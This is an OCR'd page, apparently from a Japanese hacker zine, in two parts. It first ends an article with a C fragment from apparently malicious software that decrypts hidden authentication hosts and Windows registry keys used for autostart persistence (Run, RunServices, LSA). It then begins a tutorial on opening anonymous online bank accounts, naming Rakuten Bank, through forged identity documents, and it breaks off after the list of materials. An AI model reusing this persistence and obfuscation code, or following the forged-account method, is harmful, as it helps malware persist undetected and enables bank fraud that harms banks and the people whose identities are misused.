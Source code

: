 	for(i=0;i < authsize;i++)
		Crypt(authost[i],strlen(authost[i]),"",0);

	for(i=0;i < versionsize;i++)
		Crypt(versionlist[i],strlen(versionlist[i]),"",0);

	Crypt(regkey1,strlen(regkey1),"",0); // "Software\\Microsoft\\Windows\\CurrentVersion\\Run"
	Crypt(regkey2,strlen(regkey2),"",0); // "Software\\Microsoft\\Windows\\CurrentVersion\\RunServices"
	Crypt(regkey3,strlen(regkey3),"",0); // "Software\\Microsoft\\OLE"
	Crypt(regkey4,strlen(regkey4),"",0); // "SYSTEM\\CurrentControlSet\\Contol\\Lsa"

	return;
};
#endif
-----

　別個のプログラムを作り暗号化されるとはどういう事なのか垣間見るには、PE
 Explorerを使いファイルのデータセグメントを覗いたりタスクマネージャからプ
ロセスダンプを行ってバイナリエディタで開いて実感してください。


■0x0A.) おわりに

　少し長くなりましたので残りは次回のレポートに纏めて提出します。
　ありがとうございました



x0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0x
x0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0x

--- 第○章: 匿名口座の作成手口　理論編 ---

著者：Gry

x0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0x
x0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0x


■0x01.) はじめに
　はじめまして、WizardBible初投稿のGryです。
　今回は一般の偽造業者は普通の銀行の口座を作成してそれを販売しますが、今
回はオンラインバンク、特に”楽天銀行”の口座などのイメージが強いため、オ
ンラインバンクを匿名で作成する方法を紹介させて頂きます。

　記事内容には「有印私文書偽造罪か公文書偽造罪かにあたり、１年以下の懲役
・１０万円以下の罰金が課せられる」内容がありますので、実際に真似して架空
口座を作るという実行は厳禁でお願いします。
　もちろん実行し、生じたトラブルなどあらゆることに、筆者黒林檎は責任を持
ちません。

■0x02.) 準備する物

　今回準備する物は次の通りです。

・メールアドレス
・カメラ（身分証の写真を撮影する際に使用します）
・保険証
・公共料金の領収書
・パソコン
・印刷機（スキャナ機能付き）
・文具とピンセット
・スマートフォン
・など
